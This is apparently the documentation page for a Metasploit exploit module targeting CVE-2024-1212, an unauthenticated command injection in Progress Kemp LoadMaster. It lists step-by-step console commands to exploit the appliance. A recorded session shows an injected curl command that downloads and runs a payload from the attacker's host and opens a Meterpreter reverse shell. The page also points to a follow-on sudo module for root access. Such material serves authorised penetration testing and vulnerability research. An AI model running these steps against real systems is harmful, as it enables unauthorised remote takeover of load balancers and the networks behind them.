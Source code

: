 ## Vulnerable Application
CVE-2024-1212: Progress Kemp LoadMaster Unauthenticated Command Injection

For more details on the vulnerability:  
https://rhinosecuritylabs.com/research/cve-2024-1212unauthenticated-command-injection-in-progress-kemp-loadmaster/

https://support.kemptechnologies.com/hc/en-us/articles/23878931058445-LoadMaster-Security-Vulnerability-CVE-2024-1212

A trial VM which the exploit should work against out of the box can be downloaded from:
https://sso.kemptechnologies.com/register/kemp/vlm

The AWS marketplace also has free trials which can be used. These require the "session management" to be enabled in order for the exploit to work. Since by default the admin WUI is behind basic auth.
https://aws.amazon.com/marketplace/pp/prodview-kgh3dsfk7qcnw

## Verification Steps
1. Install the application
1. Start msfconsole
1. Do: `use exploits/linux/http/progress_kemp_loadmaster_unauth_cmd_injection`
1. Do: `set RHOSTS <target loadmaster>`
1. Do: `set RPORT <port loadmaster is running on>`
1. Do: `set LHOST <your host IP>`
1. Do: `run`
1. You should get a shell as the `bal` user.
1. (Optional) use the module `exploit/linux/local/progress_kemp_loadmaster_sudo_privesc_2024` to gain root privileges.
1. (Optional) use the script `run_progress_kemp_loadmaster_sudo_priv_esc_2024.rc` to automatically run the above module.

## Scenarios

### LoadMaster 7.2.59.0.22007

``` msf
msf6 exploit(linux/http/progress_kemp_loadmaster_unauth_cmd_injection) > show options

Module options (exploit/linux/http/progress_kemp_loadmaster_unauth_cmd_injection):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.5.134.141     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-met
                                         asploit.html
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The URI path to LoadMaster
   VHOST                       no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter_reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      GyzwtIbxq        no        Name to use on remote system when storing payload; cannot contain spaces or slash
                                                  es
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /tmp/            yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               10.5.135.201     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/progress_kemp_loadmaster_unauth_cmd_injection) > run

[*] Command to run on remote host: curl -so /tmp/LlipoMVy http://10.5.135.201:8080/RByzlSnTzclKDpvXskXIrg; chmod +x /tmp/LlipoMVy; /tmp/LlipoMVy &
[*] Fetch handler listening on 10.5.135.201:8080
[*] HTTP server started
[*] Adding resource /RByzlSnTzclKDpvXskXIrg
[*] Started reverse TCP handler on 10.5.135.201:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 10.5.134.141:443 is vulnerable...
[+] The target is vulnerable.
[*] Sending payload...
[*] Client 10.5.134.141 requested /RByzlSnTzclKDpvXskXIrg
[*] Sending payload to 10.5.134.141 (curl/7.77.0)
[+] Now background this session with "bg" and then run "resource run_progress_kemp_loadmaster_sudo_priv_esc_2024.rc" to get a root shell
[*] Meterpreter session 1 opened (10.5.135.201:4444 -> 10.5.134.141:29264) at 2024-04-12 17:08:57 -0500

meterpreter > sysinfo
Computer     : 10.5.134.141
OS           : SuSE 7.2 (Linux 4.14.137)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: bal
```
